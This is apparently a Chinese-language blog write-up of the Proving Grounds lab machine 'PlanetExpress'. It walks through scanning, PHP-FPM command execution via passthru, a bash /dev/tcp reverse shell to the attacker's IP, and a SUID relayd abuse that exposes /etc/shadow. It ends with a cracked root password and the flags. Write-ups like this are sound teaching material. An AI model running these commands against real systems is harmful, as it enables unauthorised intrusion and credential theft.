



# ProvingGrounds PlanetExpress Writeup


## PlanetExpress

第10台，Linux系统，难度Easy，名称 PlanetExpress


192.168.176.205


## PortScan

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP]
└─$ sudo nmap -n -r --min-rate=3500 -sSV 192.168.176.205 -T4  
[sudo] xavier 的密码：
Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-19 14:32 CST
Nmap scan report for 192.168.176.205
Host is up (0.40s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10&#43;deb10u2 (protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.38 ((Debian))
9000/tcp open  cslistener?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 50.54 seconds
```


## WebScan


```shell
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice]
└─$ dirsearch -x 400,403,404  -t 500 -e php,asp,aspx,ini,txt,bak -u http://192.168.176.205      

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, asp, aspx, ini, txt, bak | HTTP method: GET | Threads: 500 | Wordlist size: 11475
Output File: /home/xavier/.dirsearch/reports/192.168.176.205/_23-12-19_14-40-23.txt
Error Log: /home/xavier/.dirsearch/logs/errors-23-12-19_14-40-23.log

Target: http://192.168.176.205/

[14:40:24] Starting: 
[14:40:29] 200 -  111B  - /.gitignore                                      
[14:40:37] 301 -  319B  - /assets  -&gt;  http://192.168.176.205/assets/        
[14:40:38] 301 -  319B  - /config  -&gt;  http://192.168.176.205/config/        
[14:40:39] 301 -  320B  - /content  -&gt;  http://192.168.176.205/content/      
[14:40:41] 200 -    5KB - /index.php/login/                                  
[14:40:41] 200 -    5KB - /index.php                                         
[14:40:46] 301 -  320B  - /plugins  -&gt;  http://192.168.176.205/plugins/      
[14:40:50] 200 -    0B  - /vendor/composer/autoload_psr4.php                 
[14:40:50] 200 -   23KB - /vendor/composer/installed.json                    
[14:40:50] 200 -    0B  - /vendor/composer/autoload_real.php                 
[14:40:50] 200 -    0B  - /vendor/composer/autoload_files.php                
[14:40:50] 200 -    0B  - /vendor/autoload.php                               
[14:40:50] 200 -    0B  - /vendor/composer/autoload_namespaces.php           
[14:40:50] 200 -    0B  - /vendor/composer/autoload_static.php
[14:40:50] 200 -    1KB - /vendor/composer/LICENSE                           
[14:40:51] 301 -  319B  - /themes  -&gt;  http://192.168.176.205/themes/        
[14:40:53] 200 -    0B  - /vendor/composer/ClassLoader.php                   
[14:40:53] 200 -    0B  - /vendor/composer/autoload_classmap.php             
                                                                             
Task Completed
```


扫描二级目录（总忘……）

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice]
└─$ dirsearch -x 400,403,404  -t 500 -e php,asp,aspx,ini,txt,bak -u http://192.168.176.205/config/ 

  _|. _ _  _  _  _ _|_    v0.4.2                                                                     
 (_||| _) (/_(_|| (_| )                                                                              
                                                                                                     
Extensions: php, asp, aspx, ini, txt, bak | HTTP method: GET | Threads: 500 | Wordlist size: 11475

Output File: /home/xavier/.dirsearch/reports/192.168.176.205/-config-_23-12-19_15-20-33.txt

Error Log: /home/xavier/.dirsearch/logs/errors-23-12-19_15-20-33.log

Target: http://192.168.176.205/config/

[15:20:34] Starting: 
[15:20:39] 200 -   33B  - /config/.gitignore                               
[15:20:48] 200 -  812B  - /config/config.yml                                
                                                                             
Task Completed 
```


```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice]
└─$ curl &#34;http://192.168.176.205/config/config.yml&#34;
……
## 
# Self developed plugin for PlanetExpress
#
#PicoTest:
#  enabled: true 
                                                                                                     
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice]
└─$ curl &#34;http://192.168.176.205/config/.gitignore&#34;
# This file is meant to be empty
                                 
```

注意到config.yml中最末尾的注释，启用了自己开发的插件PicoTest。

访问发现是phpinfo



## Init Access

关于9000端口，在如下文章找到了历史漏洞和工具：

https://book.hacktricks.xyz/network-services-pentesting/9000-pentesting-fastcgi

https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75

尝试读取文件成功：



尝试命令执行，回头看下phpinfo中的disable_functions，以下函数被禁用。

```sh
disable_functions	system,exec,shell_exec,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,
```

最后找来这个函数: passthru

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice]
└─$ python3 fpm.py 192.168.244.205 &#34;/var/www/html/planetexpress/index.php&#34; -c &#39;&lt;?php passthru(&#34;id&#34;); ?&gt;&#39; | head     
Content-type: text/html; charset=UTF-8

uid=33(www-data) gid=33(www-data) groups=33(www-data)
&lt;!DOCTYPE html&gt;
&lt;!--[if lt IE 7]&gt;      &lt;html class=&#34;no-js lt-ie9 lt-ie8 lt-ie7&#34;&gt; &lt;![endif]--&gt;
&lt;!--[if IE 7]&gt;         &lt;html class=&#34;no-js lt-ie9 lt-ie8&#34;&gt; &lt;![endif]--&gt;
&lt;!--[if IE 8]&gt;         &lt;html class=&#34;no-js lt-ie9&#34;&gt; &lt;![endif]--&gt;
&lt;!--[if gt IE 8]&gt;&lt;!--&gt; &lt;html class=&#34;no-js&#34;&gt; &lt;!--&lt;![endif]--&gt;
        &lt;head&gt;
        &lt;meta charset=&#34;utf-8&#34;&gt;
```


反向连接，这里外连最好用80，因为其他端口可能有限制外联：

```shell
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice]
└─$ python3 fpm.py 192.168.244.205 &#34;/var/www/html/planetexpress/index.php&#34; -c &#39;&lt;?php passthru(&#34;bash -c \&#34;bash -i &gt;&amp; /dev/tcp/192.168.45.203/80 0&gt;&amp;1\&#34;&#34;); ?&gt;&#39; | head
```





## PE

```sh
www-data@planetexpress:~$ find / -perm -u=s -type f -exec ls -l {} \; 2&gt;/dev/null
&lt; / -perm -u=s -type f -exec ls -l {} \; 2&gt;/dev/null
-rwsr-xr-- 1 root messagebus 51184 Jul  5  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 436552 Jan 31  2020 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rws---r-x 1 root root 3644754 Jan 10  2022 /usr/sbin/relayd
-rwsr-xr-x 1 root root 51280 Jan 10  2019 /usr/bin/mount
-rwsr-xr-x 1 root root 63736 Jul 27  2018 /usr/bin/passwd
-rwsr-xr-x 1 root root 63568 Jan 10  2019 /usr/bin/su
-rwsr-xr-x 1 root root 34896 Apr 22  2020 /usr/bin/fusermount
-rwsr-xr-x 1 root root 34888 Jan 10  2019 /usr/bin/umount
-rwsr-xr-x 1 root root 54096 Jul 27  2018 /usr/bin/chfn
-rwsr-xr-x 1 root root 44528 Jul 27  2018 /usr/bin/chsh
-rwsr-xr-x 1 root root 44440 Jul 27  2018 /usr/bin/newgrp
-rwsr-xr-x 1 root root 157192 Jan 20  2021 /usr/bin/sudo
-rwsr-xr-x 1 root root 84016 Jul 27  2018 /usr/bin/gpasswd
```


注意到这个relayd命令，查看帮助

```sh
www-data@planetexpress:~$ /usr/sbin/relayd -h
/usr/sbin/relayd -h
Usage: relayd [options] [actions]
Actions:
  default action      start daemon
  -h                  show this help message
  -v                  show version info
  -k                  kill running daemon
  -s                  get running status
  -U                  hup (reload configs)
  -a [service]        add service for relay
  -r [service]        remove service for relay
  -i                  get real client ip
  -b [up|down]        broadcast the DS boot state
  -R                  reopen the log file
Options:
  -C [file]           read config from file
  -d                  enable debug mode. will not run in background
  -P [file]           set pid file for daemon
  -g [ip]             remote source ip
  -n [port]           remote source port

```

有个-C读取文件的选项，因为是suid权限，可以读取任何文件，而且该命令操作后，可导致原该权限文件被任何人可读。

拿到密码hash

```sh

www-data@planetexpress:~/html/planetexpress/plugins$ ls -l /etc/shadow
-rw-r----- 1 root shadow 940 Jan 10  2022 /etc/shadow

www-data@planetexpress:~$ /usr/sbin/relayd -C /etc/shadow
/usr/sbin/relayd -C /etc/shadow
[ERR] 2023-12-19 12:50:51 config.cpp:1539 write
[ERR] 2023-12-19 12:50:51 config.cpp:1213 open failed [/usr/etc/relayd/misc.conf.tmp.12217]
[ERR] 2023-12-19 12:50:51 config.cpp:1189 bad json format [/etc/shadow]
[ERR] 2023-12-19 12:50:51 invalid config file
www-data@planetexpress:~$ ls -l /etc/shadow
ls -l /etc/shadow
-rw-r--r-- 1 root shadow 940 Jan 10  2022 /etc/shadow
www-data@planetexpress:~$ head /etc/shadow
head /etc/shadow
root:$6$vkAzDkveIBc6PmO1$y8QyGSMqJEUxsDfdsX3nL5GsW7p/1mn5pmfz66RBn.jd7gONn0vC3xf8ga33/Fq57xMuqMquhB9MoTRpTTHVO1:19003:0:99999:7:::
daemon:*:18555:0:99999:7:::
bin:*:18555:0:99999:7:::
sys:*:18555:0:99999:7:::
sync:*:18555:0:99999:7:::
games:*:18555:0:99999:7:::
man:*:18555:0:99999:7:::
lp:*:18555:0:99999:7:::
mail:*:18555:0:99999:7:::
news:*:18555:0:99999:7:::
www-data@planetexpress:~$ 
```


破解密码

```shell
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice]
└─$ hashcat -m 1800 1.hash  /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force

┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice]
└─$ john 1.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 ASIMD 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press &#39;q&#39; or Ctrl-C to abort, almost any other key for status
neverwant2saygoodbye (?)     
1g 0:00:14:10 DONE (2023-12-20 02:21) 0.001176g/s 990.2p/s 990.2c/s 990.2C/s newbattle..nevada99
Use the &#34;--show&#34; option to display all of the cracked passwords reliably
Session completed. 
```


```sh
www-data@planetexpress:~/html/planetexpress$ cat /home/astro/local.txt
cat /home/astro/local.txt
4c019d06769bb528fd86b118803b7ba1
www-data@planetexpress:~/html/planetexpress$ su root
su root
Password: neverwant2saygoodbye
id
uid=0(root) gid=0(root) groups=0(root)
ls -l /root/
total 4
-rw------- 1 root root 33 Dec 19 11:59 proof.txt
cat /root/proof.txt
43adc185281166087180042464900510
```


---

> 作者: Xavier  
> URL: https://www.bthoughts.top/posts/provinggrounds-planetexpress/  

